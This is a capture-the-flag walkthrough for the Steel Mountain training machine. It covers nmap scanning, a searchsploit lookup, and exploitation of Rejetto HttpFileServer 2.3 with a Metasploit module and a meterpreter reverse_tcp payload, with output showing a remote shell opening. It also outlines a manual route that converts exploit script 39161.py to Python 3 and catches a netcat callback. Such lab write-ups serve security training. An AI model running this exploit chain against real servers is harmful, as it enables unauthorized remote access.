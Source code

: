 ***

Author: dxWiz  
Date: 24 Mar 2022

***

# Task 1 Introduction 

Pretty straight forward, start the machine and go to the machine url and look for your answer in the source code to find out who is the employee of the month.

# Task 2 Initial Access  

Do an nmap scan `nmap -sC -sV $IP` and the scan result will lead you to the answer for question 1. 

    PORT      STATE SERVICE            VERSION
    80/tcp    open  http               Microsoft IIS httpd 8.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Microsoft-IIS/8.5
    135/tcp   open  msrpc              Microsoft Windows RPC
    139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    | rdp-ntlm-info: 
    |   Target_Name: STEELMOUNTAIN
    |   NetBIOS_Domain_Name: STEELMOUNTAIN
    |   NetBIOS_Computer_Name: STEELMOUNTAIN
    |   DNS_Domain_Name: steelmountain
    |   DNS_Computer_Name: steelmountain
    |   Product_Version: 6.3.9600
    |_  System_Time: 2022-03-22T11:49:13+00:00
    | ssl-cert: Subject: commonName=steelmountain
    | Not valid before: 2022-03-21T11:45:50
    |_Not valid after:  2022-09-20T11:45:50
    |_ssl-date: 2022-03-22T11:49:19+00:00; +2s from scanner time.
    8080/tcp  open  http               HttpFileServer httpd 2.3  
    |_http-server-header: HFS 2.3
    |_http-title: HFS /
    49152/tcp open  msrpc              Microsoft Windows RPC
    49153/tcp open  msrpc              Microsoft Windows RPC
    49154/tcp open  msrpc              Microsoft Windows RPC
    49155/tcp open  msrpc              Microsoft Windows RPC
    49156/tcp open  msrpc              Microsoft Windows RPC
    49163/tcp open  msrpc              Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

To find the name of the file server, just go to $IP:8080 and take note of the create url of the file server.

Run `searchsploit rejetto http file server 2.3 -w` to find the answer for the CVE number.

Start metasploit with the command `msfconsole` and `search http file server 2.3`

    0  auxiliary/server/android_mercury_parseuri                                normal     No     Android Mercury Browser Intent URI Scheme and Directory Traversal Vulnerability
    1  exploit/linux/smtp/apache_james_exec                    2015-10-01       normal     Yes    Apache James Server 2.3.2 Insecure User Creation Arbitrary File Write
    2  exploit/multi/http/git_client_command_exec              2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390
    3  exploit/windows/http/rejetto_hfs_exec                   2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
    4  exploit/windows/scada/codesys_gateway_server_traversal  2013-02-02       excellent  No     SCADA 3S CoDeSys Gateway Server Directory Traversal
    
`use 3` and then `show options` to see what are the required parameters to set. We begin by `set RHOSTS $IP` and `set RPORT 8080`. Also `set LHOST` to attacker machine IP. Final setting will be like below:

    msf6 exploit(windows/http/rejetto_hfs_exec) > show options

    Module options (exploit/windows/http/rejetto_hfs_exec):

     Name       Current Setting  Required  Description
     ----       ---------------  --------  -----------
     HTTPDELAY  10               no        Seconds to wait before terminating web server
     Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
     RHOSTS     <Target>$IP      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
     RPORT      8080             yes       The target port (TCP)
     SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                            or 0.0.0.0 to listen on all addresses.
     SRVPORT    8080             yes       The local port to listen on.
     SSL        false            no        Negotiate SSL/TLS for outgoing connections
     SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
     TARGETURI  /                yes       The path of the web application
     URIPATH                     no        The URI to use for this exploit (default is random)
     VHOST                       no        HTTP server virtual host


    Payload options (windows/meterpreter/reverse_tcp):

     Name      Current Setting  Required  Description
     ----      ---------------  --------  -----------
     EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
     LHOST     <Attacker>$IP     yes       The listen address (an interface may be specified)
     LPORT     4444             yes       The listen port


To run the exploit, just type `run` or `exploit` and wait patiently until you see below 

    msf6 exploit(windows/http/rejetto_hfs_exec) > run

    [*] Started reverse TCP handler on 10.11.56.137:4444 
    [*] Using URL: http://0.0.0.0:8080/hofayz
    [*] Local IP: http://10.0.2.15:8080/hofayz
    [*] Server started.
    [*] Sending a malicious request to /
    [*] Payload request received: /hofayz
    [*] Sending stage (175174 bytes) to 10.10.40.39


    [*] Meterpreter session 5 opened (<Attacker>$IP:4444 -> <Target>$IP:49298 ) at 2022-03-24 12:02:09 -0400
    [*] Server stopped.
    [!] This exploit may require manual cleanup of '%TEMP%\KxkkPLaE.vbs' on the target

    meterpreter > 

Go to C:\users\bill\desktop and `type user.txt` to get the flag for the last question

# Task 3 Privilege Escalation 

Just follow the instrcution and use metasploit to continue with the studies.

# Task 4 Access and Escalation Without Metasploit (python3 friendly)

For this task, in the latest release of python, urllib2 is gone and hence we need to use a tool name 2to3 to convert the exploit script 39161.py to a python3 friend 39161.py with the following command

`2to3 39161.py -w` this will create a backup of the original script and rewrite the script to python version3. If you do not have 2to3 in your machine, just install it `sudo apt install 2to3`

By now you should be ready with the new script. Start a simple HTTP server `python3 -m http.server 80` (take note the default port is 8000 if unspecified) and listen to a port of your choice with `nc` and then try running the script twice as instructed. You should be able to get a callback.
